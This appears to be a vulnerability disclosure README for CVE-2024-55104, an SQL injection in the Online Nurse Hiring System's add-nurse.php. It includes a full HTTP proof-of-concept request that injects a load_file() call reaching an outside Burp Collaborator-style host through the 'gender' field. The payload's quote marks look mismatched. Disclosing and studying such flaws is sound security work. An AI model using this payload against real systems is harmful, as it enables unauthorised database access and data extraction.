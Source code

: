 # CVE-2024-55104-Online-Nurse-Hiring-System-v1.0-SQL-Injection-Vulnerability
+ Exploit Author: ugurkarakoc
# Vendor Homepage
+ https://phpgurukul.com/online-nurse-hiring-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17826
# Overview
+ Online Nurse Hiring System  V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'gender' and 'emailid' parameter in the add-nurse.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-55104
+ Affected Version: Online-Nurse-Hiring-System-v1.0
+ Vulnerable File: /onhs/admin/add-nurse.php
+ Parameter Names: gender,emailid
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-55104
+ https://nvd.nist.gov/vuln/detail/CVE-2024-55104
# Description
+ The lack of proper input validation and sanitization on the 'gender' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ ‘+(select load_file(’\\\\burp.collebtor\\rfu'))+'

```
---
POST /onhs/admin/add-nurse.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3679378316959621073617570108
Content-Length: 9410
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/onhs/admin/add-nurse.php
Cookie: PHPSESSID=lp63nma98u3lr6mke4jv8irlhv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="fullname"

tes
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="gender"

Male‘+(select load_file(’\\\\burp.collebtor\\rfu'))+'
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="emailid"

test@gmail.com
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="mobilenumber"

3242342342
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="address"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="city"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="state"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="languagesknown"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="profilepic"; filename="dog.jpg"
Content-Type: image/jpeg

-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="experience"

2
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="certificate"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="description"

test
-----------------------------3679378316959621073617570108
Content-Disposition: form-data; name="submit"


-----------------------------3679378316959621073617570108--

---
```

![image](https://github.com/user-attachments/assets/59b60ea2-d17d-4d68-9cf1-beae5c65d369)
![image](https://github.com/user-attachments/assets/4e923ec4-6442-4ed3-8253-d50d0bc25b7d)



